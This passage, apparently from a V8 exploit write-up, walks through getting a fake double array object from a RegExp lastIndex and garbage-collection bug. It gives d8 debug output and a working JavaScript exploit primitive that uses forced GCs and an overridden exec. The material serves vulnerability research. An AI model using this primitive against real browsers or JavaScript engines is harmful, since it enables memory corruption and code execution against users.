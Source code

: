 Now, if `spray[1]` is equal to `0x000006cd0018ece1` in memory and `spray[2]`
is equal to `0x0000002800282379`, when we do `%DebugPrint(re.lastIndex)`,
it would show us that `re.lastIndex` is a double array of length `20`.

```console
$ ./d8 --allow-natives-syntax --shell --trace-gc ./idk.js
0x279c000484bd <JSRegExp <String[4]: #leet>>
[24846:0x5587f7ad2000]        3 ms: Mark-Compact (reduce) 0.6 (2.0) -> 0.6 (2.0) MB, 1.44 / 0.00 ms  (average mu = 0.488, current mu = 0.488) external memory pressure; GC in old space requested
0x279c0019a811 <JSRegExp <String[4]: #leet>>
0x279c00282389 <HeapNumber 1073741825.0>
[24846:0x5587f7ad2000]        3 ms: Scavenge 0.6 (2.0) -> 0.6 (3.0) MB, 0.08 / 0.00 ms  (average mu = 0.488, current mu = 0.488) external memory pressure;
[24846:0x5587f7ad2000]        4 ms: Scavenge 0.6 (3.0) -> 0.6 (3.0) MB, 0.04 / 0.00 ms  (average mu = 0.488, current mu = 0.488) external memory pressure;
[24846:0x5587f7ad2000]        4 ms: Scavenge 0.6 (3.0) -> 0.6 (3.0) MB, 0.04 / 0.00 ms  (average mu = 0.488, current mu = 0.488) external memory pressure;
[24846:0x5587f7ad2000]        4 ms: Scavenge 0.6 (3.0) -> 0.6 (3.0) MB, 0.03 / 0.00 ms  (average mu = 0.488, current mu = 0.488) external memory pressure;
0x279c0019a811 <JSRegExp <String[4]: #leet>>
0x279c00282421 <JSArray[20]>
0x279c00282389 <JSArray[20]>
V8 version 12.2.0 (candidate)
d8>
```

Below is the script to get a fake double array object.

```js
roots = new Array(0x20000);
index = 0;

function major_gc() {
    new ArrayBuffer(0x40000000);
}

function minor_gc() {
    for (var i = 0; i < 8; i++) {
        roots[index++] = new ArrayBuffer(0x200000);
    }
    roots[index++] = new ArrayBuffer(8);
}

function hex(i) {
    return "0x" + i.toString(16)
}

var re = new RegExp("leet", "g");
var exec_bak = RegExp.prototype.exec;  // backup original exec()
RegExp.prototype.exec = function () { return null; };
var n = 1073741824;
re.exec = function () {
    new Array(0x0d);
    re.lastIndex = n;
    delete re.exec;  // to pass `HasInitialRegExpMap` check and falls back to RegExp.prototype.exec to avoid infinite loop
    return [""];  // to get into `SetAdvancedStringIndex`
}
major_gc();  // major gc / mark and sweep: forces `re` to move into `OldSpace`
re[Symbol.replace]("", "l33t");
console.assert(re.lastIndex === n + 1);  // 1073741825 == 1073741824+1
RegExp.prototype.exec = exec_bak;  // restore original exec()

minor_gc();
major_gc();
```

[^wb]: <https://v8.dev/blog/concurrent-marking>
[^smi-range]: <https://medium.com/fhinkel/v8-internals-how-small-is-a-small-integer-e0badc18b6da>